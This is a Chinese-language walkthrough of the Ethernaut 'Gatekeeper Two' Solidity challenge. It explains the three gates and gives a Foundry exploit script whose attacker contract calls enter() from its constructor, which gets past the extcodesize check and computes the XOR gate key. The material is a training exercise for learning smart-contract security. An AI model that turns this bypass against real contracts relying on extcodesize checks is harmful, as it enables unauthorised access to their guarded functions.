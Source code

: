 # Level 14 - Gatekeeper Two
## 題目
[Gatekeeper Two](https://ethernaut.openzeppelin.com/level/0x0C791D1923c738AC8c4ACFD0A60382eE5FF08a23)

### 通關條件
守衛帶來了一些新的挑戰，同樣地，你需要注冊為參賽者才能通過這一關
### 提示
- 回想一下你從上一個守衛那學到了什麽，第一道門是一樣的
- 第二道門的 `assembly` 關鍵字可以讓合約去存取 Solidity 非原生的功能。參見 [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html)。在這道門的 `extcodesize` 函式，可以用來得到給定地址的合約程式碼長度，你可以在[黃皮書](https://ethereum.github.io/yellowpaper/paper.pdf)的第七章學到更多相關的資訊。
- `^` 字元在第三個門裡是位元運算 (XOR)，在這裡是為了應用另一個常見的位元運算手段 (參見 [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet))。[Coin Flip](https://hackmd.io/@D13/ethernaut3) 關卡也是一個想要破這關很好的參考資料。
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 解題
- `assembly` 的重點就是可以在合約裡直接操作 opcode (操作碼)，opcode 就是比 solidity 更底層的語言。`assembly` 可以讓你直接使用這些操作碼提升效能並降低 gas 費用；缺點是沒有安全性的檢查或是容易發生一些意外的錯誤
- 這邊提到使用 `extcodesize` 函式，這個函式會回傳輸入地址的合約程式碼長度，正常情況下可以用來判斷這個地址是合約還是 EOA。
- XOR 稱為互斥或，簡單來說就是一種 bit 的運算，算法如下：
一樣為 0，不一樣為 1
    | A   | B   | A^B |
    | --- | --- | --- |
    | 0   | 0   | 0   |
    | 1   | 0   | 1   |
    | 0   | 1   | 1   |
    | 1   | 1   | 0   |


---
跟上一題一樣，將判斷條件拆開來看
### 通過 `gateOne()`
上一題也有一樣的條件，用一樣的方法通過即可
### 通過 `gateTwo()`
第二個條件用到 opcode `extcodesize()`，剛剛有提到他會返回目標合約的程式碼長度， 17 行規定合約的程式碼長度要等於 0，這邊我們只要將攻擊合約的 code 都寫在 `constructor()` 就可以繞過長度檢查了。
```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```
>[!Tip]
>合約要部署的時候會被轉成 bytecode，bytecode 會將合約的 function 分成兩種來儲存：
>  - **Creation**
>  用途：**Creation** 儲存創建合約時會用到的 `constructor()`。它在合約創建過程中被執行，主要負責初始化合約的狀態和變數設定。
>  特點：這部分的 code 在合約部署時會被執行一次，完成合約的部署和初始化。執行完畢後，這部分會被移除，也就是說不會被儲存在區塊中。
>  - **Runtime**
>  用途：**Runtime** 儲存合約部署後實際執行的 function。它處理合約的函數調用和邏輯運算。
>  特點：部署完成後，**Creation** 會被清除，只留下 **Runtime**。合約的所有交互和狀態更新都是通過這部分來完成的。
>
>詳細可以參考以下兩篇：
>- [Deconstructing a Solidity Contract - Part II: Creation vs. Runtime](https://blog.openzeppelin.com/deconstructing-a-solidity-contract-part-ii-creation-vs-runtime-6b9d60ecb44c)
>- [深入解析Solidity合約](https://medium.com/taipei-ethereum-meetup/%E6%B7%B1%E5%85%A5%E8%A7%A3%E6%9E%90solidity%E5%90%88%E7%B4%84-4213c8c7dfa0)

關於這類型的攻擊也可以參考 [WTF Solidity 合约安全: S08. 绕过合约长度检查
](https://github.com/AmazingAng/WTF-Solidity/blob/main/S08_ContractCheck/readme.md)
### 通過 `gateThree(bytes8 _gateKey)`
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```
第三個條件要判斷 `msg.sender`, `_gateKey` 兩個變數經過一些轉換後再做 XOR 運算，出來的答案是否等於 `uint64` 的最大值；就是在問 `A^B == C?` 的問題
XOR 具有 `A^B=C, A^C=B` 的特性。所以我們只要將 `msg.sender` 與 `type(uint64).max)` 做 XOR 運算就可以得到 `_gateKey`

重新統整一下攻擊的設計重點：
  1. 呼叫另一個攻擊合約
  2. 攻擊實作在 `constructor()` 中
  3. `_gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/14_GatekeeperTwo.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        GatekeeperTwoAttacker attacker = new GatekeeperTwoAttacker(your_challenge_address);    

        vm.stopBroadcast();
    }
}

contract GatekeeperTwoAttacker {

    constructor(address _target) {
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        (bool result,) = _target.call(abi.encodeWithSignature("enter(bytes8)",bytes8(key)));
    }
}
```

